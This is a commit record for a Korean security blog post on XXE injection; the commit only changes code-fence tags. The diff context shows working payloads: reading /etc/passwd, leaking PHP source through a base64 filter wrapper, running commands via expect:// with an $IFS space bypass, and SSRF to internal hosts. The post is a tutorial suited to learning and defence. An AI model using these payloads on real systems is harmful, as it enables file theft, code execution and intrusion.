

Before and after one commit to kangsecu/kangsecu.github.io, a Jekyll site: the page built from _posts/2020-07-11-XML-External-Entities(XXE).md, in a window 1280 px wide. Shown: the top 2336 px of the page at 63% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-07-11-XML-External-Entities(XXE).md

````diff
--- a/_posts/2020-07-11-XML-External-Entities(XXE).md
+++ b/_posts/2020-07-11-XML-External-Entities(XXE).md
@@ -22,7 +22,7 @@
 
 XML을 내부에 정의한 경우
 
-``` xml-dtd
+``` xml
 <!ENTITY name "value">
 ```
 
@@ -30,7 +30,7 @@
 
 XML을 외부에 정의한 경우
 
-```xml-dtd
+```xml
 <!ENTITY name SYSTEM "url or file">
 ```
 
@@ -42,7 +42,7 @@
 
 위에서 말한 XML Entity를 이용하여 악의적인 공격을 하는 행위를 XXE Injection이라고 하는데, 공격자가 직접 XML Entity를 외부에  정의하여 이를 악용할 수 있다. XML타입의 데이터를 웹을 통해 전송하는데 서버에서 XML외부 엔티티가 실행이 가능하다면 아래와 같이 시행 가능하다.
 
-```xml-dtd
+```xml
 <!DOCTYPE test[
 <!ENTITY xxe SYSTEM "file:///etc/passwd">
 ]>
@@ -58,7 +58,7 @@
 
 우선 처음으로는 그냥 dtd를 통하여 내부 파일을 불러오려고 하면 잘 안되는 경우가 있다. 그런 상황에서는 php에 wrapper클래스를 사용하여 base64등의 형태로 인코딩시켜서 출력을 하면 보통의 경우는 잘 된다.
 
-```xml-dtd
+```xml
 <!DOCTYPE test [
   <!ELEMENT testman ANY >
   <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
@@ -68,7 +68,7 @@
 
 다음은 xxe를 통하여 RCE를 할 때는 아래와 같이 가능하다.
 
-```xml-dtd
+```xml
 <!DOCTYPE test [
 <!ELEMENT testman ANY >
 <!ENTITY xxe SYSTEM "expect://id" >]>
@@ -76,7 +76,7 @@
 
 이렇게 하면 php가  id를 실행하게 된다. 하지만 다양한 명령어를 사용할 때 공백이 필요한데 그런 경우에 공백을 넣으면 에러가 발생한다.
 
-```xml-dtd
+```xml
 <!DOCTYPE test [
 <!ELEMENT testman ANY >
 <!ENTITY xxe SYSTEM "expect://cat$IFS/etc/passwd" >]>
@@ -86,7 +86,7 @@
 
 다음으로는 XXE를 이용한 SSRF이다. 당연히 서버 내부의 권한으로 XML엔티티를 선언하고 실행하는 것이기 때문에 SSRF도 가능하다. 일반적인 사용자의 권한에서는 볼 수 없던 내용도 서버 내부의 권한으로는 가능하다.
 
-```xml-dtd
+```xml
 <!DOCTYPE test [
 <!ELEMENT testman (#ANY)>
 <!ENTITY xxe SYSTEM "https://internal_domain/any.php">]>
````
